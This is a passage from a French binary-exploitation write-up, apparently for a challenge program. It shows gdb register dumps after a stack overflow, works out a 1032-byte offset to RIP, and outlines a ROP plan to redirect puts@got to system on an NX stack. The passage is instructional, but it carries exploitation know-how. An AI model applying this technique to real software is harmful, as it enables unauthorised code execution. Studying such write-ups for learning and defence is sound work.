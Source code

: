 ```plain
rcx            0x7f73f7cd88c0      140136055408832
rdx            0x1                 1
rsi            0x1                 1
rdi            0x7f73f7ce1880      140136055445632
rbp            0x4343434342424242  0x4343434342424242
rsp            0x7fff84282758      0x7fff84282758
r8             0x0                 0
r9             0x7fff84282380      140735410611072
r10            0x5d                93
r11            0x246               582
r12            0x7fff84282888      140735410612360
r13            0x400537            4195639
r14            0x7f73f7d3ec00      140136055827456
r15            0x400580            4195712
rip            0x400574            0x400574 <main+61>
eflags         0x206               [ PF IF ]
cs             0x33                51
ss             0x2b                43
ds             0x0                 0
es             0x0                 0
fs             0x0                 0
gs             0x0                 0
(gdb) x/s $r9
0x7fff84282380: 'A' <repeats 200 times>...
```

Si vous commencez à vous servir de GDB il est bon de connaître comment utiliser [la commande x](https://visualgdb.com/gdbreference/commands/x). Pour des adresses sur 64 bits on aura par exemple recours à *x/gx*.  

D'après les caractères retrouvés sur la pile on peut conclure qu'il faut 1032 (1024 + 4 + 4) octets avant d'écraser RIP. On note aussi que le registre R9 pointe dans notre chaîne malheureusement la stack du programme est non-exécutable et de plus [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) ne trouve aucun gadget concernant ce registre :(  

Dans une situation comme celle-ci (stack NX) il faut user de Return Oriented Programming (ROP). [L'article de MiscMag](https://connect.ed-diamond.com/MISC/mischs-022/return-oriented-programming-101) peut vous aider à découvrir ceci.  

Ici mon scénario d'exploitation consistait à enchaîner des gadgets dans le but de réécrire une adresse dans la GOT (Global Offsets Table).  

Quand on regarde la fonction *main()* on voit quelle appelle *puts()* qui se trouve à l'adresse *0x400430*. Cette adresse est dans la PLT (Procedure Linkage Table) et sert juste de trampoline à l'adresse présente dans la GOT :  

```asm
(gdb) x/i 0x400430
   0x400430 <puts@plt>: jmp    *0x200be2(%rip)        # 0x601018 <puts@got.plt>
(gdb) x/gx 0x601018
   0x601018 <puts@got.plt>:        0x00007f73f7b4fd7e
(gdb) p puts 
$4 = {int (const char *)} 0x7ffff7e06d7e <__GI__IO_puts>
(gdb) p system
$5 = {int (const char *)} 0x7ffff7dd99be <__libc_system>
```

